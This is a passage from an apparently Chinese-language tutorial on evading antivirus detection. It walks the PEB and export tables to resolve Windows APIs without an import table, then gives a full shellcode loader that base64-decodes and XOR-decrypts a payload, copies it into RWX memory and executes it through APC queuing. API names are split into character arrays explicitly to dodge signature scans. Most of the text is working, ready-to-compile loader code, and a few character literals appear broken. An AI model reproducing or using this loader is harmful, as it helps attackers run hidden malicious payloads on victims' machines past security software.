AddressOfNames[i]和AddressOfNameOrdinals[i]的索引i是一致的
```

### 2.3.4 代码实现

##### （一）GetApiAddressByName

先说一下 `GetApiAddressByName` 函数的大致思路吧，代码其实在 `自举的代码幽灵——反射DLL注入（Reflective DLL Injection）` 那一节中给出来了。

1. 获取PEB结构体的地址
2. 获取PEB\_LDR\_DATA（ldr）结构体的地址
3. 获取InMemoryOrderModuleList结构体的地址，其地址也是第一个 `LIST_ENTRY` 元素的首地址
4. 使用InMemoryOrderModuleList结构体的Flink指针遍历已加载模块列表，查找目标DLL。
5. 解析目标DLL的PE结构，定位导出表。
6. 遍历导出表，查找目标API名称。
7. 如果找到目标函数，则返回找到的函数地址或NULL。

为了实现 `GetApiAddressByName`，还需要实现几个辅助函数，它们分别是 `my_towlower`、`MyCompareStringW`、`MyCompareStringA`、`ExtractDllName`

我简要的说一下它们的作用

1. `my_towlower`：将宽字符从大写转换小写，是用于辅助 `MyCompareStringW` 函数的
2. `MyCompareStringW`：不区分大小写的宽字符串比较。这主要查找目标DLL，因为我们的DLL名称是宽字符串表示的
3. `MyCompareStringA`: ASCII字符串比较函数。这主要用于查找目标API名称，因为微软的API是ASCII字符串表示的
4. `ExtractDllName`：因为 `LDR_DATA_TABLE_ENTRY` 这个结构体的 `FullDllName.Buffer` 字段表示的是完整的DLL路径，我们需要从DLL路径中提取出DLL名称  
    `自定义宽字符转小写` my\_towlower` 函数

```
// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }

    // 拉丁扩展-A 大写字母（如 À, È, Ê 等）
    if (c >= 0xC0 && c <= 0xDE && c != 0xD7) { // 0xC0(À)~0xDE(Þ), 排除 0xD7(×)
        return c + 32;
    }

    // 特殊字符单独处理
    switch (c) {
    case L'İ': return L'i';    // 土耳其语 İ → i
    case L'Σ': return L'σ';    // 希腊大写 Sigma → 小写 sigma
    case L'Ϊ': return L'ϊ';    // 希腊大写 Iota with dialytika
        // 可在此添加更多特殊字符映射...
    }

    // 其他字符直接返回（视为无小写形式）
    return c;
}
```

不区分大小写的宽字符串比较函数`MyCompareStringW`

```
// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}
```

ASCII字符串比较函数 `MyCompareStringA`

```
// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {


    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}
```

提取 DLL 名称的函数`ExtractDllName`

```
// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}
```

`GetApiAddressByName`的实现如下

```
FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {

#ifdef _WIN64
    PTEB pTEB = (PTEB)__readgsqword(0x30);
    PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
#elif _WIN32
    PTEB pTEB = (PTEB)__readfsdword(0x18);
    PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
#endif

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}
```

##### （二）实战

```
#include <windows.h>
#include <winternl.h>
#include <iostream>
#include <iomanip>
#include <vector>
#include <fstream>
#include <sstream>
typedef LPVOID(WINAPI* VIRTUALALLOC)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef VOID(NTAPI* NTTESTALERT)(VOID);
typedef DWORD(WINAPI* QUENEUSERAPC)(PAPCFUNC pfnAPC, HANDLE hThread, ULONG_PTR dwData);
typedef FARPROC(WINAPI* GetPROCADDRESS)(HMODULE hModule, LPCSTR  lpProcName);
typedef HMODULE(WINAPI* GETMODULEHANDLEA)(LPCSTR lpModuleName);

// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }

    // 拉丁扩展-A 大写字母（如 À, È, Ê 等）
    if (c >= 0xC0 && c <= 0xDE && c != 0xD7) { // 0xC0(À)~0xDE(Þ), 排除 0xD7(×)
        return c + 32;
    }

    // 特殊字符单独处理
    switch (c) {
    case L'İ': return L'i';    // 土耳其语 İ → i
    case L'Σ': return L'σ';    // 希腊大写 Sigma → 小写 sigma
    case L'Ϊ': return L'ϊ';    // 希腊大写 Iota with dialytika
        // 可在此添加更多特殊字符映射...
    }

    // 其他字符直接返回（视为无小写形式）
    return c;
}

// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}

// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {


    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}

// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}

FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {

#ifdef _WIN64
    PTEB pTEB = (PTEB)__readgsqword(0x30);
    PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
#elif _WIN32
    PTEB pTEB = (PTEB)__readfsdword(0x18);
    PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
#endif

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}

// Base64 字符表
static const std::string base64_chars =
"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
"abcdefghijklmnopqrstuvwxyz"
"0123456789+/";

// 解码函数
std::vector<unsigned char> base64_decode(unsigned char* input, size_t length) {
    std::vector<int> T(256, -1);
    for (int i = 0; i < 64; i++) {
        T[static_cast<int>(base64_chars[i])] = i;
    }

    std::vector<unsigned char> decoded;
    int val = 0, valb = -8;

    for (size_t i = 0; i < length; ++i) {
        if (T[input[i]] == -1) break; // 处理无效字符
        val = (val << 6) + T[input[i]];
        valb += 6;
        if (valb >= 0) {
            decoded.push_back(static_cast<unsigned char>((val >> valb) & 0xFF));
            valb -= 8;
        }
    }

    return decoded;
}

std::vector<unsigned char> xorEncryptDecrypt(const unsigned char* input, size_t length, const std::string& key) {
    std::vector<unsigned char> output(length); // 创建输出向量，大小与输入相同
    size_t keyLength = key.size();

    for (size_t i = 0; i < length; ++i) {
        output[i] = input[i] ^ key[i % keyLength]; // 逐位异或，循环使用密钥
    }
    return output; // 返回输出向量
}

int main() {

    // 读取shellcode
    std::string filePath = "shellcode.txt";
    std::ifstream file(filePath);

    if (!file.is_open()) {
        std::cerr << "无法打开文件: " << filePath << std::endl;
        return 1;
    }

    std::string base64string;
    std::stringstream buffer;
    buffer << file.rdbuf();
    base64string = buffer.str();
    file.close();

    // Base64 解码
    size_t len = base64string.length();
    std::vector<unsigned char> decoded = base64_decode((unsigned char*)base64string.data(), len);

    // 解密
    std::string key = "mysecretkey";//密钥
    std::vector<unsigned char> decryptedtext(decoded.size());
    decryptedtext = xorEncryptDecrypt(decoded.data(), decoded.size(), key);

   
    // 字符数组形式隐藏函数名（规避字符串特征扫描）,你可以把所以用到的API都用这种形式表示，我这里懒得弄了
    WCHAR kernel32[] = { 'K', 'e', 'r', 'n', L'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };   
    CHAR getModuleHandleA[] = { 'G','e','t','M','o','d','u','l','e','H','a','n','d','l','e','A','\0' };

    // 动态获取API函数指针
    GetPROCADDRESS pGetProcAddress = (GetPROCADDRESS)GetApiAddressByName(kernel32, getProcAddress);
    GETMODULEHANDLEA pGetModuleHandleA = (GETMODULEHANDLEA)GetApiAddressByName(kernel32, getModuleHandleA);;
    VIRTUALALLOC pVirtualAlloc = (VIRTUALALLOC)pGetProcAddress(pGetModuleHandleA("Kernel32.dll"), "VirtualAlloc");
    NTTESTALERT pNtTestAlert = (NTTESTALERT)pGetProcAddress(pGetModuleHandleA("ntdll.dll"), "NtTestAlert");
    QUENEUSERAPC pQueueUserAPC = (QUENEUSERAPC)pGetProcAddress(pGetModuleHandleA("Kernel32.dll"), "QueueUserAPC");

    // 在本地进程申请一块RWX内存区域，并将shellcode复制到该区域
    LPVOID lpBaseAddress = pVirtualAlloc(NULL, decryptedtext.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(lpBaseAddress, decryptedtext.data(), decryptedtext.size());

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    pQueueUserAPC((PAPCFUNC)lpBaseAddress, GetCurrentThread(), NULL);

    // 清空并处理APC队列
    pNtTestAlert();

    return 0;
}
```



## 2.4 完全PEB

与2.3的实现大致相同，细微的差异就是我们不再利用 `GetModuleHandle+GetProcAddress` 的组合获取所需的API，而是利用自定义实现的 `GetApiAddressByName` 函数来获取。其效果我感觉是与2.3相差无几，但有一点需要提及的就是如果进程没有加载API所在的DLL的话，这个方法就失效了，但是这种情况还是非常少的，我们使用的敏感API大部分都在的Kernel32.dll中，而大部分的进程都会加载Kernel32.dll。

主体代码修改

```
// 字符数组形式隐藏函数名（规避字符串特征扫描）,你可以把所以用到的API都用这种形式表示，我这里懒得弄了
WCHAR kernel32[] = { 'K', 'e', 'r', 'n', L'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
WCHAR ntdll[] = { 'n','t','d','l','l','.','d','l','l','\0' };
CHAR virtualAlloc[] = {'V','i','r','t','u','a','l','A','l','l','o','c','\0'};
CHAR ntTestAlertName[] = { 'N','t','T','e','s','t','A','l','e','r','t','\0' };
CHAR queueUserAPCName[] = { 'Q','u','e','u','e','U','s','e','r','A','P','C','\0' };

// 动态获取API函数指针
VIRTUALALLOC pVirtualAlloc = (VIRTUALALLOC)GetApiAddressByName(kernel32, virtualAlloc);
NTTESTALERT pNtTestAlert = (NTTESTALERT)GetApiAddressByName(ntdll, ntTestAlertName);
QUENEUSERAPC pQueueUserAPC = (QUENEUSERAPC)GetApiAddressByName(kernel32, queueUserAPCName);
```

动态获取API函数是一项防御规避技术，如果一项御规避技术失效可以搭配其他的技术达到免杀效果，常见的有API哈希、系统调用（分为直接系统调用和间接系统调用）和调用栈欺骗等，后续我也会出文章介绍。

# 参考资料

1. [什么？你连这都不会还学免杀？之「API动态解析」](https://mp.weixin.qq.com/s/m2OtNt03G0QYOspBUDUotg)
2. [【免杀】隐藏导入表（IAT）的六种方式](https://mp.weixin.qq.com/s/w7zSxRcScRYB3cf5mUP9PA)
3. [免杀基础-IAT隐藏](https://mp.weixin.qq.com/s/NeMwoL_A3bq6Qh0uWzk9ow)
4. [隐藏IAT(导入表)敏感API笔记 - root@Ev1LAsH ~ (killer.wtf)](https://killer.wtf/2020/12/11/HiddenIAT.html)
5. [文章 - PEB及其武器化 - 先知社区](https://xz.aliyun.com/news/12996#toc-6)
